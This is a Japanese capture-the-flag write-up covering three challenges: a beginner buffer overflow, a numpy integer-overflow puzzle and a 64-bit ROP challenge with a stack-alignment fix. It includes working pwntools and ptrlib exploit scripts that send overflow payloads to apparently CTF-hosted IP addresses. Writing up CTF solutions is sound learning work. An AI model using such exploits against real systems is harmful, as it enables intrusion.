 初歩的なBOFの問題でした。

``` python
from ptrlib import *
elf = ELF("./pwn01")
nopsled = b"\x41"*44
shellcode = b"\x39\x05\x00\x00"
payload = nopsled + shellcode

sock = Socket("143.198.184.186", 5000)
sock.sendline(payload)
sock.interactive()
```

ベタ打ちしてたリトルエンディアン記法のバイト列が間違ってて無駄に時間使ってしまったので反省。

### HammerToFall

これは結構面白い問題でした。

以下のPythonスクリプトで`flag!`を出力させることができる入力値を求める問題。

``` python
import numpy as np

a = np.array([0], dtype=int)
val = int(input("This hammer hits so hard it creates negative matter\n"))
if val == -1:
	exit()
a[0] = val
a[0] = (a[0] * 7) + 1
print(a[0])
if a[0] == -1:
	print("flag!")
```

numpyのintは64bit符号あり整数の範囲に制限され、オーバフローした値は対照的な負の数として扱われます。（詳しくは2の補数について調べてみてください）

というわけで、7倍して1を足したときにオーバフローしてちょうど`-1`として解釈される入力値として`2635249153387078802`が正解になります。

### zoom2win

シンプルなROPの問題でしたが、問題バイナリが64bitであり、スタックのアラインメントのトラップに引っかかって、ローカルではエクスプロイトできるのにリモートでは刺さらない状況になってしまいました。

今回は以下の記事を参考にして`push rbp`をスキップしてリターンアドレスのバイト数をそろえる方法でFlagを取得しました。

参考：[[再掲]Pwnにおけるスタックのアライメント - Qiita](https://qiita.com/ssssssssok1/items/b8ffca6b68149812c335)

``` python
from pwn import *

elf = ELF("/home/parrot/Downloads/zoom2win")
context.binary = elf

p = remote("143.198.184.186", 5003)
nopsled = b"\x41"*40
shellcode = p64(0x40119b)
payload = nopsled + shellcode
p.sendline(payload)
p.interactive()
```
